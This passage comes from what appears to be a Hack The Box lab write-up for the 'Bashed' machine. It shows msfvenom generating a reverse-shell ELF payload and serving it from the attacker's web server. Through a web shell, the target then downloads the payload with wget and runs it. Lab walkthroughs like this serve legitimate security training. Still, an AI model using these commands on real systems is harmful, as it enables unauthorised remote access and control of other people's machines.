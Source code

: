 Enumerated /dev/ files:

![Pasted image 20210512135339.png](../../zzz_res/attachments/Pasted_image_20210512135339.png)

![Pasted image 20210512135513.png](../../zzz_res/attachments/Pasted_image_20210512135513.png)

# Exploitation

## Remote code execution using phpbash

Generated and hosted a reverse shell from msfvenom:

```bash
┌──(kali㉿kali)-[~/…/HTB/box/Bashed/exploit]
└─$ msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.10.14.24 LPORT=10099 -f elf -o rs.elf
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 68 bytes
Final size of elf file: 152 bytes
Saved as: rs.elf

┌──(kali㉿kali)-[~/…/HTB/box/Bashed/exploit]
└─$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Downloaded and executed the reverse shell:

![Pasted image 20210512140348.png](../../zzz_res/attachments/Pasted_image_20210512140348.png)

```bash
www-data@bashed:/tmp# cd /tmp
www-data@bashed:/tmp# wget 10.10.14.24/rs.elf

--2021-05-12 05:08:02-- http://10.10.14.24/rs.elf
Connecting to 10.10.14.24:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 152 [application/octet-stream]
Saving to: 'rs.elf'

0K 100% 31.0M=0s

2021-05-12 05:08:02 (31.0 MB/s) - 'rs.elf' saved [152/152]

www-data@bashed:/tmp# ls

VMwareDnD
rs.elf
systemd-private-d0dbe26844344198bb074cc7c4de20c1-systemd-timesyncd.service-i9GhUN
vmware-root
www-data@bashed:/tmp# chmod 777 rs.elf
www-data@bashed:/tmp# ./rs.elf
```
